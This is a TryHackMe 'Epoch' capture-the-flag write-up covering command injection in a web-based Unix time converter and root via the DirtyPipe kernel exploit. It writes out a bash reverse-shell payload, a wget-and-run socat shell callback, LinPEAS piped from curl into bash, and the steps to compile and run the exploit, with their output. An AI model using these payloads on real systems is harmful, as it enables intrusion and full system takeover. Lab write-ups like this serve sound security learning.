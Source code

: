 # Epoch | Nov 2, 2022

## Introduction

Welcome to my another writeup! In this TryHackMe [Epoch](https://tryhackme.com/room/epoch) room, you'll learn: Inspecting malicious traffics in Brim and more! Without further ado, let's dive in.

- Overall difficulty for me: Very easy

## Background

> Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps!

> Difficulty: Easy

Be honest, you have _always_ wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

**Access this challenge** by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: [http://MACHINE_IP](http://MACHINE_IP)

## Service Enumeration

### HTTP on Port 80

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234154.png)

**Looks like what this page does is converting Unix epoch time to UTC time!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234252.png)

**What if I type an invalid epoch time??**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234405.png)

Hmm... `exit status 1`.

**This looks like it's vulnerable to command injection!** (`exit status 1` is the exit status in Unix system.)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234752.png)

It's indeed vulnerable!

**Also, look at the error of the `date` command:**
`date: invalid date '@'`

**This looks like our input is being parse to a bash command, like: `bash -c "date <user_input>"`.**

## Initial Foothold

**In here, you can type `env` to get the flag. Or get a reverse shell!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Epoch/images/Pasted%20image%2020221101235049.png)

- Reverse shell:

**Payload:** (Generated from [revshells.com](https://www.revshells.com/))
```bash
/bin/bash -i >& /dev/tcp/10.9.0.253/443 0>&1
```

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# nc -lnvp 443 
listening on [any] 443 ...
```

**Send the payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Epoch/images/Pasted%20image%2020221101235255.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.16.249] 55158
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ whoami;hostname;id
whoami;hostname;id;ip a
challenge
e7c1352e71ec
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
```

**Flag:**
```
challenge@e7c1352e71ec:~$ env
HOSTNAME=e7c1352e71ec
PWD=/home/challenge
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{Redacted}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

## Privilege Escalation (Optional)

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

challenge@e7c1352e71ec:~$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/11/01 23:57:17 socat[14829] N opening character device "/dev/pts/2" for reading and writing
2022/11/01 23:57:17 socat[14829] N listening on AF=2 0.0.0.0:4444
                                                                 2022/11/01 23:57:19 socat[14829] N accepting connection from AF=2 10.10.16.249:54494 on AF=2 10.9.0.253:4444
                                                                  2022/11/01 23:57:19 socat[14829] N starting data transfer loop with FDs [5,5] and [7,7]
                                              challenge@e7c1352e71ec:~$ 
challenge@e7c1352e71ec:~$ stty rows 23 columns 107
challenge@e7c1352e71ec:~$ export TERM=xterm-256color
challenge@e7c1352e71ec:~$ ^C
challenge@e7c1352e71ec:~$ 
```

**LinPEAS:**
```
┌──(root🌸siunam)-[/opt/PEAS]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

challenge@e7c1352e71ec:~$ curl -s http://10.9.0.253/linpeas.sh | bash
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
[...]
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: [ ubuntu=(20.04|21.04) ],debian=11
   Download URL: https://haxx.in/files/dirtypipez.c

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded
[...]
```

**Hmm... Let's try the DirtyPipe kernel exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# wget https://haxx.in/files/dirtypipez.c

challenge@e7c1352e71ec:~$ wget http://10.9.0.253/dirtypipez.c -O /tmp/dirtypipez.c;cd /tmp
```

**Confirm the target machine has `gcc` installed:**
```
challenge@e7c1352e71ec:/tmp$ which gcc
/usr/bin/gcc
```

**It's has `gcc`, so we can compile the C exploit in there.**

**Compile the C exploit:**
```
challenge@e7c1352e71ec:/tmp$ gcc dirtypipez.c -o dirtypipez

challenge@e7c1352e71ec:/tmp$ ./dirtypipez 
Usage: ./dirtypipez SUID
```

**In this kernel exploit, it needs a SUID sticky bit binary!**
```
challenge@e7c1352e71ec:/tmp$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
```

**Let's use the `/usr/bin/chfn` as the binary that we want to hijack:**
```
challenge@e7c1352e71ec:/tmp$ ./dirtypipez /usr/bin/chfn
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami;hostname;id
root
e7c1352e71ec
uid=0(root) gid=0(root) groups=0(root)
```

I'm root! :D

# Conclusion

What we've learned:

1. Command Injection
2. Privilege Escalation via DirtyPipe (CVE-2022-0847) Kernel Exploit